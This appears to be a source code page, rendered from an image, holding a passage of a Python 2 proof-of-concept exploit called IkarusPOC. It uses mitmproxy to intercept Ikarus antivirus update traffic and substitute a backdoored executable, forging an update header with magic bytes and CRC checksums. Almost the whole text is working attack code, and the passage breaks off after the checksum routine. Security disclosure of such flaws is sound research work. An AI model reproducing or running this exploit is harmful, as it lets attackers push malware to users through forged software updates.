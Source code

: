 ```


```
./poc.py file_to_deploy.exe
```

```
#!/usr/bin/env python2
import os
try:
    from mitmproxy import controller, proxy, platform
    from mitmproxy.proxy.server import ProxyServer
except:
    from libmproxy import controller, proxy, platform
    from libmproxy.proxy.server import ProxyServer

import re
import struct
import sys
import zlib
import bz2

class IkarusPOC(controller.Master):
    def __init__(self, server, backdoored_file):
        controller.Master.__init__(self, server)
        self.ikarus= {}
        self.crc_file = 0
        self.backdoored_file = backdoored_file
        self.to_replace = 0
        self.already_patched = 0
        self.update_number = 0 

    def win_header(self):
        self.update_header = "\x49\x4B\x55\x50\x00\x00\x00\x00\x3C\x00\x00\x00\x00\x00\x00\x00"
        self.update_header += "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"  
        self.update_header += struct.pack("<I", self.to_replace)        # update number
        self.update_header += struct.pack("<I", self.crc_file)          # checksum
        self.update_header += "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
        self.update_header += "\x00\x00\x00\x00"

    def run(self):
        try:
            return controller.Master.run(self)
        except KeyboardInterrupt:
            self.shutdown()

    def crc_stream(self, a_string):
        prev = 0
        return zlib.crc32(a_string, prev) & 0xFFFFFFFF

    def crc(self, some_file):
        prev = 0
        for eachLine in open(some_file,"rb"):
            prev = zlib.crc32(eachLine, prev)
        self.crc_file = prev & 0xFFFFFFFF 
        print "[*] crc_file", self.crc_file
